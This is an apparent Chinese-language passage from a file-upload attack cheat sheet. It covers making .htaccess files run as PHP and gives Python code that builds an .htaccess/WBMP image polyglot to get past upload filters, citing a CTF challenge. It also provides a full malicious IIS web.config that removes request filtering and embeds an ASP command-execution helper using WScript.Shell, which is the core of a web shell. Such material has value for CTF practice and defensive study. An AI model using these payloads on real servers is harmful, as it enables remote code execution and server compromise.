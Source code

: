 通过修改默认的“禁止”规则，允许 Web 访问 .htaccess 文件

将 .htaccess 文件的 MIME 类型设置为“application/x-httpd-php”，访问包含此文件的目录时，web服务器将解析其中的php代码

**.htaccess as image**

如何上传有效的.htaccess文件，问题来源于一道ctf题目，如何绕过限制上传有效的.htaccess文件

http://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster

我们可以使用如下代码来进行图片多语言htaccess文件的创建

```python
# create valid .htaccess/wbmp image

type_header = b'\x00'
fixed_header = b'\x00'
width = b'50'
height = b'50'
payload = b'# .htaccess file'

with open('.htaccess', 'wb') as htaccess:
    htaccess.write(type_header + fixed_header + width + height)
    htaccess.write(b'\n')
    htaccess.write(payload)
```

### web.config(ASP server)

https://soroush.me/blog/2019/08/uploading-web-config-for-fun-and-profit-2/

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!--
<% Response.write("-"&"->")%>
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)

    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>
```